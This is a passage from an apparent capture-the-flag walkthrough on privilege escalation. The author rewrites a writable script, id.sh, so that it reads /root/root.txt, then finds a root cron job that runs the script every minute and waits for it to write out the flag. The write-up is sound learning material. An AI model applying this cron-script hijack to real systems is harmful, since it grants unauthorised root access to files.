 Lets try to abuse it changing the contents of id.sh to use cat on /root/root.txt:

```shell
# Use echo to rewrite id.sh with the shebang and add a new line with cat
echo '#!/bin/bash' > id.sh
echo 'cat /root/root.txt > test.txt' >> id.sh
```

Lets run id.sh now and see if we can get the root.txt flag:

```shell
bash id.sh

cat: /root/root.txt: Permission denied
```

It didnt work. Would have been too easy.

But maybe we dont need to run it, but wait for root to run it. I can guess there is a cron job running.

### Checking Cron Jobs
Lets enumerate and search for cron jobs:

```shell
cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
```

That makes sense now! There is a cron job active where root runs id.sh.

Note that when everything is set to * the cron job will run every minute, every day, every week, every month. Meaning the cron job that runs id.sh runs every minute.

This means we just need to wait after editing id.sh and root will run the commands inside id.sh and write the output into test.txt.

Now by the time we waited after editing id.sh, we can just use cat to see the root.txt inside test.txt:
